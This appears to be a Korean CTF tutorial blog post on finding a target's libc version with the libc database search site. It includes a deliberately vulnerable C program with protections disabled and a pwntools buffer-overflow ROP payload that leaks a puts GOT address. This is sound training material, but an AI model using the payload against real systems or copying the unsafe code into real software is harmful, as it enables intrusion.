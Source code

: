 ## Introduction
ROP를 해야하는데 CTF에서 libc 파일을 주지 않았을 경우엔 주최측 서버의 libc 버전을 추측해야하는 상황이 생깁니다.

이 때, ASLR이 걸려도 하위 1.5바이트는 변하지 않음을 이용해 libc 버전을 알아낼 수 있습니다.

## libc-database search
파일로 된 libc-database도 있지만 이번 실습에 이용할 것은 [libc database search](https://libc.blukat.me)입니다.

![1](/image/libc-database/1.png)

쿼리문에 leak해서 얻어낸 함수와 주소를 입력하면, libc 버전과 유용한 offset들을 나타내줍니다.

## Practice
아래의 C 파일을 바탕으로 실습하도록 하겠습니다.

```C
// Compile: gcc -o libc-database libc-database.c -fno-PIE -no-pie -fno-stack-protector -z execstack
#include <stdio.h>
#include <unistd.h>

int main(){
        char buf[0x30];

        setvbuf(stdin, 0, _IONBF, 0);
        setvbuf(stdout, 0, _IONBF, 0);

        puts("[*] Leak libc version");
        printf("Buf: ");
        read(0, buf, 0x100);

        return 0;
}
```

매우 간단한 BOF 문제이며 아래의 payload를 통해서 2개의 함수 주소를 leak 해보겠습니다.

```python
from pwn import *

context.log_level = 'debug'

r = process("./libc-database")
e = ELF("./libc-database")

pop_rdi = 0x401283

# Leak puts(read)
payload = b"A" * 56
payload += p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts'])

r.sendafter(": ", payload)

print(hex(u64(r.recv(6) + b"\x00"*2)))
```

실행하면 아래와 같은 결과값을 얻을 수 있습니다.

```shell
[*] puts: 0x7f0872b3d5a0
[*] read: 0x7f4a1aa14130
```

위 payload에서는 귀찮음의 이유로 한 번에 하나의 주소만 leak하였지만 정확한 libc 버전을 얻기 위해서는 최소 2~3개의 데이터가 필요합니다. 

이렇게 나온 값들을 아까의 페이지에 삽입하게되면 아래 사진과 같이 libc 버전과 offset이 나오게됩니다.

![2](/image/libc-database/2.png)

실제로 사용한 libc-2.31.so가 찾아짐을 확인할 수 있습니다.

![3](/image/libc-database/3.png)

## Conclusion

* *__함수 주소 하위 1.5바이트는 변하지 않음을 이용해__* libc version을 예측할 수 있습니다.
* *__최대한 많은 함수의 주소값__* 을 알아야 예측 범위를 좁힐 수 있습니다.

## Reference

* [libc-database 사용하기](https://s1m0hya.tistory.com/20)